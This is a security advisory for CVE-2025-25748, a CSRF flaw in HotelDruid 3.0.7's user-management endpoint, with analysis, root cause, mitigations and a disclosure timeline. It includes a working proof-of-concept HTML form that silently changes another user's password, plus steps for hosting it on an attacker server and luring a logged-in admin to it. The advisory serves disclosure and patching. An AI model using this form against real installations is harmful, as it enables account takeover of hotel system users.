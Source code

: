 # CVE-2025-25748-Cross-Site-Request-Forgery-CSRF-Vulnerability-in-HotelDruid-3.0.7

## Description

A Cross Site Request Forgery (CSRF) vulnerability in the gestione_utenti.php endpoint of HotelDruid 3.0.7 allows attackers to perform unauthorized actions (e.g., modifying user passwords) on behalf of authenticated users by exploiting the lack of origin or referer validation and the absence of CSRF tokens.

---

## Impact

- **Unauthorized Password Changes:** Attackers can overwrite user passwords, leading to complete account takeover.
- **Session Riding:** The attacker can leverage the victim’s active session to make unauthorized administrative changes.
- **Data Breach Risk:** If administrative accounts are compromised, sensitive user and operational data may be exposed or altered.

This vulnerability exposes all user accounts — including administrative ones — to unauthorized changes without the user’s consent.

---

## Proof of Concept (PoC)

### PoC HTML Form

The following malicious form demonstrates how an attacker can force a logged-in administrator to change the password of user ID 2 to `maliciouspassword`:

```html
<form method="POST" action="http://localhost/hoteldruid/gestione_utenti.php">    <input type="hidden" name="anno" value="2025">    <input type="hidden" name="id_sessione" value="20250118062407or6tODG42f79QvMA2429">    <input type="hidden" name="modifica_pass" value="SI">    <input type="hidden" name="id_utente_pass" value="2">    <input type="hidden" name="prima_pass" value="maliciouspassword">    <input type="hidden" name="seconda_pass" value="maliciouspassword">    <button type="submit">Submit</button></form>
```

### Hosting and Launching the Attack

Save the above code as `csrf_attack.html`.

Serve it using Python (attacker-controlled server):

```bash
python3 -m http.server 8080
```

Direct the victim to:

```
http://<attacker-ip>:8080/csrf_attack.html
```

Once submitted, the form sends the request to HotelDruid, changing the password of user ID 2 to `maliciouspassword`, using the victim’s active session.

---

## Analysis

### Background

HotelDruid is a widely-used open-source property management system for hotels and vacation rentals. As a multi-user system with administrative controls for user management, ensuring that only authorized users can modify account credentials is critical for overall system security.

CSRF vulnerabilities exploit the trust a server places in a user’s browser session. If a victim is logged in and visits a malicious page, the page can silently submit unauthorized requests to the vulnerable application using the victim’s active session. In HotelDruid, the lack of CSRF defenses on critical actions — like changing user passwords — allows attackers to fully compromise accounts without user interaction beyond visiting a malicious link.

---

## Vulnerability Details

### Affected Endpoint

- `gestione_utenti.php`

### Affected Parameters

- `modifica_pass`
- `id_utente_pass`
- `prima_pass`
- `seconda_pass`

### Root Cause

- No anti-CSRF token is present in the form or validated server-side.
- No validation of the `Origin` or `Referer` headers is performed.
- The application blindly trusts incoming POST requests, including those originating from external sites.

### Exploitation Flow

1. Attacker prepares a malicious HTML form with pre-filled hidden fields targeting `gestione_utenti.php`.
2. Attacker tricks a logged-in HotelDruid user (e.g., admin) into visiting the malicious page.
3. Upon visiting, the form automatically submits, sending a valid request to change a user’s password to a value controlled by the attacker.
4. The victim’s session is used to authorize the request, without their knowledge or consent.

---

## Impact

- **Account Takeover:** Any user’s password (including admin accounts) can be changed without their knowledge, giving the attacker full access.
- **Privilege Escalation:** Attackers could escalate privileges if they can first compromise a lower-level user and then pivot using administrative actions.
- **Data Integrity Risks:** Attackers can modify user accounts, potentially locking out legitimate users or creating backdoor access.

---

## Mitigation / Patching

### Recommendations for Developers

### Anti-CSRF Tokens

- Implement and enforce unique anti-CSRF tokens for all state-changing forms and requests.
- Verify tokens server-side before processing requests.

### Referer/Origin Header Validation

- Validate `Referer` and `Origin` headers to ensure requests come from trusted origins.

### Limit Sensitive Operations via GET Requests

- Password changes and similar actions should be restricted to POST requests only.
- Avoid passing sensitive session data (like `id_sessione`) in the URL.

### Session Management Enhancements

- Regenerate session tokens after login.
- Bind session tokens to IP addresses or browser fingerprints, where feasible.

### User Notification

- Notify users (email or in-app alert) when sensitive actions like password changes occur.

---

## Timeline and Credits

- **Discovery Date:** January 16, 2025
- **Vendor Notification:** January 17, 2025
- **MITRE CVE Assignment:** CVE-2025-25748, February 27 2025
- **Public Disclosure:** March 7, 2025
- **Researcher:** Huy Vo (Security Researcher)
